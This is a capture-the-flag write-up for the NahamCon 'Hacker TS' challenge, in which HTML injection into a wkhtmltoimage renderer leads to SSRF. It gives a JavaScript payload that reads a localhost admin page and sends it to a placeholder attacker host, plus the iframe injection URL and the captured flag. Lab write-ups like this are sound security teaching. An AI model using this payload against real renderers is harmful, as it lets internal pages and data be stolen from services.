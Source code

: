 # Hacker TS

We have some kind of image renderer that places our text onto a T-Shirt image. After some fuzzing, we would find that HTML injection is possible.

![](<../../.gitbook/assets/image (86).png>)

If we try to load an external resource (e.g. JavaScript or stylesheet), we can capture the request made by the server, and see that the user agent is `wkhtmltoimage`.

It seems that SSRF vulnerabilities through `wkhtmltoimage` and `wkhtmltopdf` are pretty [well known](http://hassankhanyusufzai.com/SSRF-to-LFI/), so we could craft the following payload to exfiltrate the contents of `http://localhost:5000/admin`.

```markup
<html>
    <body>
        <script>
            function reqListener () {
                var exfil = new XMLHttpRequest();
                exfil.open("GET", "http://ATTACKER_URL/" + btoa(this.responseText), false);
                exfil.send();
            }

            var oReq = new XMLHttpRequest();
            oReq.addEventListener("load", reqListener);
            oReq.open("GET", "http://localhost:5000/admin");
            oReq.send();
        </script>
    </body>
</html>
```

We can then host the above and load it through an iframe:

`http://challenge.nahamcon.com:32132/exploit?text=%3Ciframe%20src=%22https://ATTACKER_URL/exploit.html%22%3E&color=%2324d600`

The contents of the admin page contains the flag:

```markup
<!-- Page Content -->
<div class="container">
  <div class="alert alert-success mt-5">
    Hi admin! here is your flag:
    <strong>flag{461e2452088eb397b6138a5934af6231}</strong>
  </div>
</div>
<!-- /.container -->
```

